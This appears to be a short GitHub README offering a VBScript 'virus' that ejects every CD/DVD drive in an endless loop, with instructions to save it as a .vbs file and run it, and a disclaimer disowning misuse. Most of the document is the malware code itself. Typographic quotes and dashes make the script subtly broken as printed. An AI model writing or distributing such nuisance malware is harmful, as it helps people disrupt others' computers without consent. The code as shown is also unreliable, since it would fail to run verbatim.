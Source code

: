 # Continious Cd Drive Popup VBS Virus
This code will Continuously Popup Cd/Dvd/Drive ROMs From The System After Executing The Files. 
<br>
<br>
# copy the following code in notepad and save that with .vbs extention
```vbs
Set oWMP = CreateObject(”WMPlayer.OCX.7″)
 Set colCDROMs = oWMP.cdromCollection
 do
 if colCDROMs.Count >= 1 then
 For i = 0 to colCDROMs.Count – 1
 colCDROMs.Item(i).Eject
 Next
 For i = 0 to colCDROMs.Count – 1
 colCDROMs.Item(i).Eject
 Next
 End If
 wscript.sleep 100
 loop
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

